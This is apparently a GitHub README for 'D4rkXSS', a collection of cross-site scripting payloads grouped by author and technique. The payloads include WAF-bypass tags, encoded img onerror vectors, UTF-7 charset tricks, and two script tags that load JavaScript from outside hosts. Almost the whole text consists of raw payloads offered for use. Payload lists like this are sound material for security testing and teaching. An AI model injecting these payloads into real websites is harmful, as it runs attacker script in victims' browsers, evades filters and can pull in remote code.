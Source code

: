 # D4rkXSS
<p align="center">
	<img src="images/logo.png" height="200"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://eshansingh.in/">NO SCRIPT</a><br/>
<li>For Example:</li>

```
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
```

[Brutelogic XSS](D4rkXSS/brutelogic.txt)<br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
[Fuzz3r](D4rkXSS/fuzz3r.txt)<br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
[JHADDIX](D4rkXSS/jhaddix.txt "Jhaddix")<br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
[RSnake](D4rkXSS/rsnake.txt "RSnake")<br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
[Mario](D4rkXSS/marioxss.txt "Mario")<br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
[Basic](D4rkXSS/basic.txt "Basic")<br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```
